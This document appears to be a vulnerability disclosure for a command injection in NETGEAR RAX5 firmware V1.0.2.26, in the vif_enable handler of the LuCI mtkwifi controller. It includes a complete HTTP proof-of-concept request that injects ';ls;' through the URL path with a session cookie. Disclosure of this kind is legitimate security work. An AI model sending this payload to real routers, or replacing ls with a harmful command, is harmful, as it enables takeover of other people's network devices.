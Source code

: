 # NETGEAR RAX5 V1.0.2.26 Command Injection (vif_enable)

## Product Information

- Device: NETGEAR RAX5
- Firmware Version: V1.0.2.26
- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.downloads.netgear.com/files/GDC/RAX5/RAX5_V1.0.2.26_1.zip or https://www.netgear.com/support/download/?model=RAX5

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `vif_enable` function via the `iface` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/vif_enable/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_enable/;ls; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

After the injection, we can verify the result in the response.

![](./4.png)